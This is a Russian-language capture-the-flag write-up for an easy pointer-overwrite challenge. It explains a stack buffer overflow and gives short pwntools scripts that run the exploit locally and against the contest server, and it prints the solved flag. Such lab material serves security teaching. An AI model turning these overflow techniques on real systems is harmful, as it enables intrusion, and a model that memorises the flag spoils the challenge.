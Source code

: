 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: sptr
# Сложность: Easy

В данном блоке предложены задачи на перетирание адресов. Перетирание адреса и изменения поведения программ является одним из ключевых навыков на любом CTF. В данных задачах важно понимать суть атаки, поэтому на небольших задачах листниг в ассемблере больше разбирать не будем. Начнем решение: <br />
![image](https://github.com/user-attachments/assets/d382dd4b-817d-4dc3-a60d-ba50a2bd6b16)

Изначально указатель содержит адрес указывающий на строку `NO WIN`. Наша задача его перезаписать. Для того, чтобы его перезаписать нам необходимо переполнить статический
массив `auStack_18`, а рядом, написать новый адрес (естественно в little endian). Найдем адрес, указывающий на строку `WIN`. Обратим внимание на данный код: <br />

![image](https://github.com/user-attachments/assets/6c95d6e3-22c6-464e-9063-f1164cc14087)

Здесь используется функция `strcmp`, которая сравнивает две строки. Регистр `RDI` кладется первый аргумент, который представляет из себя строчку `NO WIN`. В регистр `RSI` пойдет второй аргумент, который адресом указывающий на строчку `WIN`. Нажмем на `DAT_00402058` и узнаем адрес: <br />

![image](https://github.com/user-attachments/assets/bdc1b672-2b91-4d87-9ff9-1ef5bbf7bc38)

Напишем скрипт, который отправит наш ввод. Сначала получим локальный флаг, а затем настоящий: 

```py
p = process('./sptr')
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()

```
![image](https://github.com/user-attachments/assets/bdec7ead-e676-4f20-acac-fc21bc677591) <br />

Получилось, а значит можем запустить программу на сервере:

```py
from pwn import * 

p = remote('109.233.56.90', 11600)
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```

![image](https://github.com/user-attachments/assets/c86f4aa4-1813-4dd4-9966-ca2ec9cc49c4) <br />

Ответ: `spbctf{b0e0b0cedc622b2396e0069cd5a5f568}`

